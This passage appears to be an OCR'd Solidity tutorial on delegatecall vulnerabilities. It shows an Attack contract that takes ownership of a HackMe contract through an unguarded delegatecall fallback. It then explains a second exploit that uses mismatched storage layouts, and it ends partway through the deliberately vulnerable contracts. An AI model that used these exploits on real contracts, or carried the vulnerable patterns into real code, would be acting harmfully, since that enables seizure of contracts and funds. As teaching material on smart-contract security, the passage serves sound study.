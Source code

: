     constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```

**Another example**

This is a more sophisticated version of the previous exploit.

1. Alice deploys Lib and HackMe with the address of Lib
2. Eve deploys Attack with the address of HackMe
3. Eve calls Attack.attack()
4. Attack is now the owner of HackMe

What happened?
Notice that the state variables are not defined in the same manner in Lib
and HackMe. This means that calling Lib.doSomething() will change the first
state variable inside HackMe, which happens to be the address of lib.

Inside attack(), the first call to doSomething() changes the address of lib
store in HackMe. Address of lib is now set to Attack.
The second call to doSomething() calls Attack.doSomething() and here we
change the owner.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract Lib {
    uint public someNumber;

    function doSomething(uint _num) public {
        someNumber = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint public someNumber;
